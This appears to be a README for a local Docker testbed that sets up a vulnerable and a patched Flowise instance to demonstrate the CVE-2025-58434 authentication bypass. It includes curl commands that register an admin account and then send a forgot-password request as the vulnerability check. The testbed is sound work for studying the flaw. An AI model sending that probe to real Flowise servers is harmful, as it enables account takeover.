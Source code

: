 # Flowise CVE-2025-58434 Auth-bypass 

Flowise is a drag and drop UI tool for building LLM applications.
This testbed demonstrates vulnerable and non-vulnerable configurations of Flowise UI instances vulnerable to CVE-2025-58434.

## Vulnerable Setup
The secure setup of the CVE-2025-58434 vulnerability:

```bash
docker compose -f docker-compose-vulnerable.yml up
# create admin account
curl 'http://localhost:3001/api/v1/account/register' -X POST  -H 'Content-Type: application/json' --data-raw '{"user":{"name":"admin","email":"admin@admin.com","type":"pro","credential":"kidkidkid123Kid@"}}'
# check the vulnerability 
curl -i -X POST http://127.0.0.1:3001/api/v1/account/forgot-password  -H "Content-Type: application/json" -d '{"user":{"email":"admin@admin.com"}}'
# clean up
docker compose -f docker-compose-vulnerable.yml down
sudo rm -rf .flowise_vulnerable_volume
```
Application will be available at `http://localhost:3001/`

## Secure Setup
The secure setup fixed the CVE-2025-58434 vulnerability:
```bash
docker compose -f docker-compose-secure.yml up
# create admin account
curl 'http://localhost:3000/api/v1/account/register' -X POST  -H 'Content-Type: application/json' --data-raw '{"user":{"name":"admin","email":"admin@admin.com","type":"pro","credential":"kidkidkid123Kid@"}}'
# check the vulnerability 
curl -i -X POST 'http://127.0.0.1:3000/api/v1/account/forgot-password'  -H "Content-Type: application/json" -d '{"user":{"email":"admin@admin.com"}}'
# clean up
docker compose -f docker-compose-secure.yml down
sudo rm -rf .flowise_secure_volume
```

Application will be available at `http://localhost:3000/`
